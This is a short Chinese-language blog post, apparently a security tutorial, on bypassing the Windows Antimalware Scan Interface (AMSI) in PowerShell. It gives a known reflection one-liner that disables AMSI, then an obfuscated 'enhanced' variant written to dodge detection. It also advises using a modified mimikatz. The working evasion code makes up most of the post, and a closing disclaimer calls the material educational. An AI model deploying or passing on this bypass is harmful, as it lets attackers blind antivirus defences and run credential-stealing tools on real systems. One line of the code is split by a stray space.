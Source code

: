![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904174318.png)

  

没关系，我们来bypass，之前有人利用的是base64：

  

  * 

    
    
    [Ref].Assembly.GetType('System.Management.Automation.'+$([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('QQBtAHMAaQBVAHQAaQBsAHMA')))).GetField($([Text.Encoding]::Unicode.GetString([Convert]::FromBase64String('YQBtAHMAaQBJAG4AaQB0AEYAYQBpAGwAZQBkAA=='))),'NonPublic,Static').SetValue($null,$true)

  

但现在已经会被标记并查杀了，我们这里对他进行增强：

  

  *   *   *   *   *   *   *   *   * 

    
    
    function b64decode { param ($encoded)  $decoded = $decoded = [System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String($en coded))  return $decoded }   $1 = b64decode("U3lzdGVtLk1hbmFnZW1lbnQuQXV0b21hdGlvbi5BbXNpVXRpbHM=")   $2 = b64decode("YW1zaUluaXRGYWlsZWQ=")   $3 = b64decode("Tm9uUHVibGljLFN0YXRpYw==")   [Ref].Assembly.GetType($1).GetField($2,$3).SetValue($null,$true)

  

![]()

  

注：此类方法不太适合mimikatz，可以执行，但执行后便会被查杀。若非要使用，则最后使用变换过的mimikatz。

  

  
  
  
  
  
     ▼更多精彩推荐，请关注我们▼

  

 **请严格遵守网络安全法相关条例！此分享主要用于学习，切勿走上违法犯罪的不归路，一切后果自付！**

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210904174319.png)

  

  

预览时标签不可点

收录于话题 #

个 __

上一篇 下一篇

阅读
